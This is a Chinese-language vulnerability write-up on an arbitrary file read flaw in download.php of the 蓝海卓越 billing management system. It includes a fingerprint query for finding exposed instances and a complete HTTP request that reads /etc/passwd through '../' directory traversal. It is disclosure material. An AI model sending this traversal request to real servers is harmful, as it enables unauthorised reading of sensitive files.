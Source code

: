# 蓝海卓越 计费管理系统 download.php 任意文件读取漏洞

## 漏洞描述

蓝海卓越计费管理系统 download.php文件存在任意文件读取漏洞，攻击者通过 ../ 遍历目录可以读取服务器上的敏感文件

## 漏洞影响

<a-checkbox checked>蓝海卓越计费管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="蓝海卓越计费管理系统"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313134647906.png)



出现漏洞的文件为 download.php ，其中 file参数 存在用户可控发送如下请求包

```plain
GET /download.php?file=../../../../../etc/passwd HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=qkoqsiilc4dol8s4e9d7ta15g7; mylang=zh_s

Connection: close
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313134648545.png)



## 